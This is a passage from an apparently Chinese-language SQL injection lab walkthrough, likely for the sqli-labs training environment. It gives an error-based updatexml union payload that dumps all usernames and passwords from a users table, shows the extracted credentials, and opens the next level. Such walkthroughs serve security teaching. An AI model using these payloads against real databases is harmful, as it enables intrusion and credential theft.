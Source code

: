 爆破出列名：`id,username,password`



+ 注入如下语句爆破出所有数据

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1)#
~~~

![Less-13_12](./img/Less-13_12.PNG)

爆破出所有数据：`DumbDumb,AngelinaI-kill-you,Dum`



### Level-14 POST盲注 回显报错

+ 首先进入第十四关，页面如下
